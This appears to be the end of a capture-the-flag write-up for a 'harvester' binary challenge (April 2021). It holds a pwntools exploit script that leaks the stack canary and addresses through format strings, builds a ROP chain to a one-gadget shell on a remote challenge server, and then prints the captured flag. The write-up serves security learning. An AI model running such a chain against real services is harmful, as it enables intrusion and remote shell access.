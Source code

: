 ```python
def main():
    p: ELF = ELF('./harvester')
    l: ELF = ELF('./libc.so.6')
    r = remote('188.166.172.13', 31769)

    canary: int = format_leak(r, CANARY_OFF)
    print(f'[*] Leaked canary = 0x{canary:x} ... ')

    harvest: int = format_leak(r, HARV_OFF) - HARV_FROM_BASE
    print(f'[*] Leaked harvest @ 0x{harvest:x} ... ')
    p.address = harvest - p.sym['harvest']
    print(f'[*] Got binary base = 0x{p.address:x} ... ')

    fix_pie(r)
    rop_to(r, p.sym['main']+CALL_HARV_MAIN, canary, rbp=p.sym['got.printf'], pad=b'\x00')

    printf: int = raw_format_leak(r, PRINTF_OFF)
    print(f'[*] Leaked got.printf @ 0x{printf:x} ... ')
    l.address = printf - l.sym['printf']
    print(f'[*] Got libc base = 0x{l.address:x} ... ')

    fix_pie(r)
    rop_to(r, l.address+ONE_GADGET, canary)
    r.interactive()

if __name__ == '__main__':
    main()
```

### result

![image-20210422164939635](exploit.png)

<h4 align="center">
    CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
</h4>

---

... m4ttm00ny (April 2021)
